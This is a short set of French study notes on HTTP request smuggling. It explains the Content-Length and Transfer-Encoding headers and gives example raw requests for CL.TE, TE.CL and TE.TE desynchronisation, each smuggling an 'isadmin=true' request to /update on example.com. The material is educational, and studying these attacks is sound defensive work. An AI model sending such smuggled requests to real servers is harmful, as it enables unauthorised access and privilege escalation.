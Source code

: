 

# HTTP Request Structure


1. Request Line : METHOD PATH HTTPversion
2. Request Headers
3. Message Body

![[request_structure.png]]


--- 
## Content-Length Header 

> Informe sur la taille de la requete/reponse en bytes

---
## Transfer-Encoding Header

> Indique la forme du body

- chunked 
- compress
- deflate
- gzip

---
## CL.TE - Content-Length / Transfer-Encoding


> Creer une requetes pour que le front et le back interprete différemment la requets

Exemple : 
```shell-session
POST /search HTTP/1.1
Host: example.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

> Le front-end voit Content-Length : 130 il va donc prendre la requete jusqu'au "isadmin=true"
> Le Back-end lui avec le Transfer-Encoding: chunked il s'arretera au 0 

> Possibilité d'avoir des accès non-autorisés pour un attaquant.

--- 
### Incorrect Content-Length 

> Si la taille du Content-Length est trop petite alors le serveur interpretra uniquement la taille du body du CL
> 

---

## TE.CL  - Transfer-Encoding / Content-Length

> C'est l'opposé de l'autre technique

```shell-session
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

78
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

> Ici le front-end grace au T.E:chunked voit la deuxieme requetes comme un body

--- 
## TE.TE - Transfer-Encoding / Transfer-Encoding

```shell-session
POST / HTTP/1.1
Host: example.com
Content-length: 4
Transfer-Encoding: chunked
Transfer-Encoding: chunked1

4e
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0
```

> Le front-end va prendre toute la requetes car T.E : chunked
> Le back va interpreter différement le chunked1 via le C.L : 4

